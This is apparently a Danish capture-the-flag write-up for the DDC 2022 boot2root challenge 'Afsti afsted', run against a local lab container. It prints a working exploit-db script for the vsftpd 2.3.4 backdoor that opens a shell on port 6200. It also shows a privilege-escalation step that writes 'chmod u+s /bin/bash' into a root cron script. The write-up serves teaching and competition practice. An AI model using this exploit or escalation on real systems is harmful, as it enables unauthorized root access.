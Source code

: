 ```yaml
---
layout: post
title:  "DDC 2022 'afstiafsted' Writeup"
date:   2022-05-07 16:17:42 +0200
categories: writeups
---
```

# Afsti afsted
Dette er mit writeup for Afsti afsted, en challenge som jeg havde til hensigt skulle være nem, men endnu engang i år kom jeg til at fejlvurdere hvad der er `nemt` og hver der nok er nærmere `medium-svært`. 

Det er ikke min hensigt at fucke med nogens opfattelse af hvad de kan, sorry for den dårlige sværhedsgrads-labeling :-(

(I dette writeup løser jeg opgaven fra en lokalt kørende container, derfor vil du se `localhost` i stedet for `afsti-afsted.hkn` på screenshots)

Ihvertfald er `Afsti Afsted` en `boot2root` challenge hvor hensigten er at udnytte en bagdør i `vsftpd 2.3.4` og privesc ved at skrive til et world writeable script som kører som root via `cron` hver minut.

Uanset hvilken opgave du laver, er der altid en god idé at starte med et nmap.

```bash
root@d993e6b1ec7c:/tmp# nmap 172.17.0.2
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-07 19:22 UTC
Nmap scan report for 172.17.0.2
Host is up (0.0000050s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
2100/tcp open  amiganetfs
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 13.05 seconds
```

Hvilket viser en eller anden port på `2100` åben, man kan ikke stole på at det er `amiganetfs` så lad os prøve at tjekke om vi kan finde ud af hvad det er:

```bash
root@d993e6b1ec7c:/tmp# nmap -sC -sV -p 2100 172.17.0.2
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-07 19:23 UTC
Nmap scan report for 172.17.0.2
Host is up (0.000031s latency).

PORT     STATE SERVICE VERSION
2100/tcp open  ftp     vsftpd 2.3.4
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    1 1000     1000         4096 May 04 18:41 pub
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 172.17.0.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.45 seconds
```

Ok sick nok, vi kan se at `vsftpd 2.3.4` kører. lad os lige prøve at hurtigt google den.




![vsftpd](/assets/vsftpdbackdoor.JPG)


ok det virker som om der er en bagdør i den her version, hvis vi læser lidt på nr 2 link, så kan vi se hvad det går ud på. Scriptet fra exploit-db ser således ud.

```python

#!/usr/bin/python3   
                                                           
from telnetlib import Telnet 
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)                           
parser=argparse.ArgumentParser()        
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()       
host = args.host                        
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()
```

Ok hvis vi læser det, så sender det bare strengen `nergal:)` som bruger og `pass` som password.

Dette åbner så en bagdør på port 6200 som vi bare kan forbinde til. Du ville kunne bruge scriptet fra ovenover hvis du ændrer porten fra `21` til `2100` 

Jeg valgte dog bare at gøre det manuelt


sry for at have sagt det her er nemt, det er min fejl :(

![vsftpd](/assets/ftpconnect.jpg)

Som du kan se på ovenstående screenshot så forbinder jeg bare med ovenstående info, og så netcatter jeg til port 6200 og har så bruger på maskinen.

Nu kan man køre nogle privesc scripts, jeg kan godt lide linpeas https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Hvilket viser der er et script `/opt/cleanlogs.sh` som vi har `write access` til..

Det lyder som et script der kører automatisk, lad os prøve at skrive til det.

```
echo "chmod u+s /bin/bash" > /opt/cleanlogs.sh
```
fordi vi kan bruge gtfobins https://gtfobins.github.io/gtfobins/bash/

og så vente lidt tid.

....

...

og så skrive `/bin/bash -p`

og vi kan finde flaget

![vsftpd](/assets/privesc2.jpg)